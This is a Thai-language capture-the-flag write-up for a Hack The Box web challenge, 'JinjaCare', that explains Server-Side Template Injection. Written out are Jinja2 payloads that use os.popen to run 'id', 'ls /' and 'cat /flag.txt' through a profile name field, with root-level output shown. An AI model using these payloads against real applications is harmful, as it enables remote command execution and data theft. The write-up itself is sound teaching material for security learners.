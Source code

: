 Hi, Can you speak Thai ?
Yes, I can speak Thai.
มา วันนี้เราจะมาทำข้อ JinjaCare หมวด Web ระดับ Very easy

Step 1 สร้างบัญชี
เขาจะให้ IP มา คือ 94.237.121.100:50594 จากนั้นเราก็เข้าไปที่ Sign In แล้วเลือก create a new account ในส่วนของข้อมูลที่ใช้สมัคร เราสามารถสมมติขึ้นมาเองได้เลย

Step 2 49

2.1 ไปที่ Personal Info ใส่วันเดือนปีเกิด ในส่วนนี้เราสามารถปลอมแปลงได้ 

2.2 ไปที่ Full Name เปลี่ยนข้อมูลจากชื่อเป็น {{7*7}} กด Save Changes

2.3 กลับไปที่ Dashboard กด Download Certificate

2.4 สังเกตตรง Name มันจะเป็น 49 ถ้าไม่ใช่ 49 ให้กลับไปดูตรง Full Name ในหน้า Personal Info ใหม่

Step 3 id
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution
```
นี่คือลิงก์เกี่ยวกับ Server Side Template Injection

3.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{7*7}}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
3.2 กลับไปที่ Dashboard กด Download Certificate

3.3 สังเกตตรง Name มันจะเปลี่ยนเป็น uid=0(root) gid=0(root) groups=0(root)

Step 4 ls

4.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} 
```
เป็น 
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
4.2 สังเกตตรง Name มันจะเปลี่ยนเป็น app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

Step 5 cat flag.txt
5.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
5.2 สังเกตตรง Name มันจะเปลี่ยนเป็น HTB{XXXXX}
XXXXX ไม่ใช้ flag นะ คือปิดไว้ จะได้ทำเอง

อธิบาย SSTI
- SSTI หรือ Server-Side Template Injection คือช่องโหว่ที่เกิดขึ้นเมื่อแอปพลิเคชันนำข้อมูลจากผู้ใช้ไปใส่ลงใน template ของฝั่งเซิร์ฟเวอร์โดยตรง ทำให้ข้อความนั้นถูกตีความหรือประมวลผลเป็นโค้ดของ template engine แทนที่จะเป็น "ข้อมูล" แบบนิ่ง (literal) ผลคือผู้โจมตีสามารถทำให้ template engine ประมวลผลนิพจน์ที่เขาส่งมาผ่านอินพุต และนั่นอาจนำไปสู่การเปิดเผยข้อมูลภายใน (ข้อมูลความลับ) หรือ การรันโค้ดบนเซิร์ฟเวอร์ (RCE) ขึ้นอยู่กับความสามารถของ engine
- Template engine คือ ซอฟต์แวร์ที่ช่วยให้นักพัฒนาเว็บสามารถแยกส่วนของโค้ด HTML ออกจากข้อมูลแบบไดนามิกได้ โดยจะประมวลผลเทมเพลตและแทนที่ตัวแปรต่างๆ ด้วยข้อมูลจริงก่อนที่จะสร้างเป็น HTML สุดท้าย การทำเช่นนี้ช่วยเพิ่มความสามารถในการอ่าน, นำโค้ดกลับมาใช้ใหม่, และจัดการโค้ดให้ง่ายขึ้น
- uid=0(root) gid=0(root) groups=0(root) มันหมายความว่า กระบวนการหรือเชลล์นั้นกำลังรันด้วยสิทธิ์ของผู้ใช้ root (ผู้ดูแลระบบ)
  อธิบายแต่ละส่วนแบบชัด ๆ
  uid=0(root) — UID (user identifier) = 0 ซึ่งตามมาตรฐานคือ ผู้ใช้ root (superuser)
  gid=0(root) — GID (group identifier) = 0 ซึ่งคือกลุ่ม root
  groups=0(root) — รายชื่อกลุ่มที่ผู้ใช้นั้นเป็นสมาชิก (ในที่นี้เป็นเพียงกลุ่ม root)
  ความหมายเชิงปฏิบัติ
  ถ้าคุณเห็นสตริงนี้สำหรับเชลล์หรือ process แปลว่า process นั้นมีสิทธิ์เต็ม (privileged) สามารถอ่านหรือเขียนไฟล์สำคัญของระบบ, เปลี่ยนการตั้งค่าระบบ, ติดตั้ง/ลบแพ็กเกจ, เปลี่ยนสิทธิ์ผู้ใช้ ฯลฯ โดยสรุปคือสามารถทำอะไรก็ได้บนเครื่อง (administrator powers)
  เป็นสถานะที่อันตรายถ้ากำลังรันโปรแกรมไม่เชื่อถืออยู่ใน context นี้ เพราะจะทำให้มัลแวร์หรือคำสั่งผิดพลาดทำความเสียหายได้มาก
- ถ้าแอปเอา "{{7*7}}" เข้าไปและ engine ประมวลเป็น 49 แปลว่าระบบตีความข้อมูลเป็นโค้ด นี่ไม่ใช่การปฏิบัติต่อข้อมูลแบบนิ่งและเสี่ยงเกิด SSTI

ศัพท์น่าสงสัย
"ข้อมูล" แบบนิ่ง (literal) คือ ค่าข้อมูลที่ถูกกำหนดไว้อย่างชัดเจนและคงที่ในโค้ดหรือเทมเพลตนั้น ๆ โดยตรง ไม่ใช่ค่าที่ได้จากการคำนวณ ตัวแปร หรือการดึงข้อมูลจากแหล่งภายนอก
ลักษณะของข้อมูลแบบนิ่ง (Literal Data) ข้อมูลแบบนิ่งจะถูกตีความตามที่เห็น โดยไม่ต้องมีการประมวลผลหรือค้นหาเพิ่มเติม มักเป็นประเภทข้อมูลพื้นฐาน เช่น Literal String, Literal Number เป็นต้น
ตัวอย่าง:

ลิงก์ข้อมูลเพิ่มเติม
1. Template engine
```
https://medium.com/@itz.dhruv/comprehensive-guide-to-template-engines-in-node-js-with-express-c953a47dfa9d
```
2. ChatGPT และ Gemini สามารถนำข้อมูลไปให้มันขยายความได้
